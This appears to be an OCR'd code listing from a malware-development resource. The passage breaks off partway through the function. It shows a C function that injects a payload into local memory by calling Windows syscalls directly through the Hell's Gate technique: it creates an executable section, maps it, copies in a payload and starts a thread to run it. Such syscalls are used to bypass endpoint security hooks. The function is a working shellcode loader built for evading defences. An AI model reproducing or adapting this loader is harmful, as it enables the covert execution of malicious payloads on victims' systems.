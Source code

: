 ### **LocalMappingInjectionViaSyscalls**


```
BOOL LocalMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection		= NULL;
	HANDLE				hThread			= NULL;
	PVOID				pAddress		= NULL;
	NTSTATUS			STATUS			= NULL;
	SIZE_T				sViewSize		= NULL;
	LARGE_INTEGER		MaximumSize 	= {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view
	HellsGate(pVxTable->NtCreateSection.wSystemCall);
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_EXECUTE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %ld \n", pAddress, sViewSize);

//--------------------------------------------------------------------------
	// Writing the payload

	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pAddress);
	printf("[#] Press <Enter> To Run The Payload ... ");
	getchar();

//--------------------------------------------------------------------------

	// Executing the payload via thread creation

	printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
		printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));


//--------------------------------------------------------------------------

	// Unmapping the local view - only when the payload is done executing
	HellsGate(pVxTable->NtUnmapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent((HANDLE)-1, pAddress)) != 0) {
```